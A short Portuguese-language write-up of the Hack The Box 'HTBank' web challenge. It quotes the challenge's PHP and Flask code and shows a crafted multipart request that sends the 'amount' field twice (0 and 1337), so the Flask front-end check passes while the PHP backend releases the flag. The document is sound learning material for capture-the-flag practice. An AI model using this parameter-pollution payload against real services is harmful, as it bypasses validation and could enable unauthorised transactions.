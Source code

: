 #ctf 

https://app.hackthebox.com/challenges/HTBank

Para resolver o lab, é preciso burlar o endpoint `/api/withdraw`, pois a função do back vai atualizar no banco o campo `show_flag` para aparecer no site, como mostra os códigos abaixo:

```PHP
# Back
public function index($router){

$amount = $_POST['amount'];
$account = $_POST['account'];

if ($amount == 1337) {
	$this->database->query('UPDATE flag set show_flag=1');
	return $router->jsonify(['message' => 'OK']);
}

return $router->jsonify(['message' => 'We don\'t accept that amount']);
}
```

O primeiro passo é sair do segundo `if` do front ao acessar esse endpoint. Para isso, basta apenas enviar um `amount` com valor 0.

```python
@api.route('/withdraw', methods=['POST'])
@isAuthenticated
def withdraw(decoded_token):
	body = request.get_data()
	amount = request.form.get('amount', '')
	account = request.form.get('account', '')

	if not amount or not account:
		return response('All fields are required!'), 401
	
	user = getUser(decoded_token.get('username'))


	try:
		if (int(user[0].get('balance')) < int(amount) or int(amount) < 0 ):
			return response('Not enough credits!'), 400

		res = requests.post(f"http://{current_app.config.get('PHP_HOST')}/api/withdraw", headers={"content-type": request.headers.get("content-type")}, data=body)

		jsonRes = res.json()
		return response(jsonRes['message'])

	except:
		return response('Only accept number!'), 500
```

Porém, no backend o amount deve ser igual a 1337 para pegarmos a flag. A solução então é usar da vulnerabilidade chamada **http parameter polluition**, enviando dois `amount` um com valor 0 e outro com valor 1337.

```
-----------------------------131246009024406851302182491943
Content-Disposition: form-data; name="account"

0x95452ddcfc228e491bee2aea55d7a361
-----------------------------131246009024406851302182491943
Content-Disposition: form-data; name="amount"

0
-----------------------------131246009024406851302182491943
Content-Disposition: form-data; name="amount"

1337
-----------------------------131246009024406851302182491943--
```


As linguagens de programação têm abordagens distintas para lidar com parâmetros iguais passados a uma função. Por exemplo, em JavaScript, isso resultaria na criação de um vetor; em C#, apenas o primeiro valor seria utilizado; enquanto em PHP, o último valor enviado seria considerado.

So atualizar a página e GG!